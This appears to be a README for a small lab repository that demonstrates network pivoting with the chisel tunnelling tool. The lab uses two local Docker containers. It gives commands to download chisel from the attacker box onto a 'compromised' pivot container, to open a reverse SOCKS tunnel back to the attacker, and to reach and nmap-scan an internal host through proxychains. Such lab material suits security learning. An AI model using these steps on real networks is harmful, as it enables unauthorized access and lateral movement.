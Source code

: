 # Playing with chisel
A small repo with examples to play with chisel

---

# Requirements:

- A Linux system/Attacker Box (I will use Manjaro)
- 2 Linux Docker Containers (I will use 2 Ubuntu containers)

---

# On our Attacker Box:

We will download <code>chisel</code> from the github repo:

```
https://github.com/jpillora/chisel
```

I will version <code>v1.7.7</code>

![](./Images/Version.png)

<i>NOTE:</i> If we attack a Windows system the Windows and Linux chisel must be on the same version e.g: 1.7.7

We install:

```bash
sudo packman -Sy proxychains
```

---

# On the Victim Containers

```bash
docker run -ti -h external ubuntu
docker run -ti -h internal ubuntu
```

The container named `external` is the one that we will use as a pivot to access the `internal` container

![](./Images/Containers0.png)

On the 2 containers we run:

```bash
apt update
apt install wget
apt install net-tools
pat install python3
```

![](./Images/Containers1.png)

![](./Images/Containers2.png)

---

# POC:

The `external` machine has the IP address: `172.17.0.3`

![](./Images/Containers3.png)


The `internal` machine has the IP address: `172.17.0.2`

![](./Images/Containers4.png)

On the `internal` machine we start a `Simple Python HTTP Server on TCP Port 8080`

```bash
python3 -m http.server 8080
```

![](./Images/Containers5.png)

We will try to access the HTTP server on the `internal` machine with a `curl` from out `Attacker Box` with the IP of `external`.

On the `external` machine we transfer `chisel`:

```bash
wget 192.168.1.36:8081/chisel
```

<i>NOTE:</i> The system with IP address `192.168.1.36` is my Manjaro Box wich runs an HTTP server on TCP Port 8081 to transfer files.

![](./Images/Containers6.png)

On our `Attacker Box` we run `chisel` as a server on port 8000 in `reverse mode` for reverse port forwarding

```bash
./chisel server -p 8000 --reverse
```

![](./Images/Host0.png)

On the 'compromised' `external` machine we run the `chisel` client and use a socks proxy:

```bash
./chisel client 192.168.1.36:8000 R:socks
```

![](./Images/Containers7.png)

![](./Images/Containers8.png)

The default socks port is the TCP Port 1080.

On our Attacker Box we have configure `proxychains` to use the socks5 proxy on TCP Port 1080:

```bash
sudo nvim /etc/proxychains.conf
```

![](./Images/ProxyChains0.png)

We add the last line:

```
socks5 127.0.0.1 1080
```

Now we can use `proxychains` before any command in order to pass the traffic from the pivot machine (`external`)

On our `Attacker Box`:

```bash
proxychains curl 172.17.0.2:8080
```

![](./Images/Host1.png)

As we can see there is a GET request on the TCP Port 8080 on the `internal` machine which came from the pivot(`external`) machine:

![](./Images/Containers9.png)

---

# Scanning with proxychains:

On our Attacker Box:

```bash
proxychains nmap -Pn -sV -sC  172.17.0.2
```

![](./Images/Host2.png)

---

# Material:

```
https://www.youtube.com/watch?v=dIqoULXmhXg
```
